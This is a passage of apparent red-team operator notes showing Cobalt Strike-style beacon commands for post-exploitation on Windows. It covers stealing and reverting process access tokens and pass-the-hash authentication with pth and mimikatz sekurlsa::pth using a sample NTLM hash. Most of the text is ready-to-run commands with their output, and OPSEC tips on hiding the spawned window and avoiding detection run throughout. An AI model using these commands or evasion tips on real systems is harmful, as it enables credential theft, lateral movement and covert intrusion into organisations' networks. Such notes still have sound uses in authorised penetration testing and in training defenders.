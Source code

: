 > **OPSEC Note**: Don't perform cross-platform injection unless is needed.
>
> `x64 -> x86` or `x86 -> x64`

# Token Impersonation

The `steal_token` command will impersonate the access token of the target process.

```
beacon> ps

PID   PPID  Name                   Arch  Session     User
---   ----  ----                   ----  -------     -----
448   796   explorer.exe            x64  1           CORP\user

beacon> steal_token 448
[+] Impersonated CORP\user
```

> **Note**: `steal_token` is good for access remote resources across network but not for local actions.

With `rev2self` will drop the impersonation.

```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 20 bytes
```

# Pass The Hash

Is a technique which allows you to authenticate to a Windows service using the NTLM hash of a user's password.

> **Note**: This modification process requires patching of LSASS memory which is high-risk action.

```
beacon> pth CORP\user 4ffd3eabdce2e158d923ddec72de9790
```

In order to avoid detection, we can use `mimikatz` and specify a own process.

```
beacon> mimikatz sekurlsa::pth /user:user /domain:corp.local /ntlm:4ffd3eabdce2e158d923ddec72de9790 /run:"powershell -w hidden"
```

> **OPSEC Alert**: If no `/run` parameter is specified, a `cmd.exe` window will be started. To avoid that use `powershell -w hidden` to create a hidden window.

Finally use `steal_token` to impersonate the user ith the spawned process.

```
beacon> steal_token 4563
```
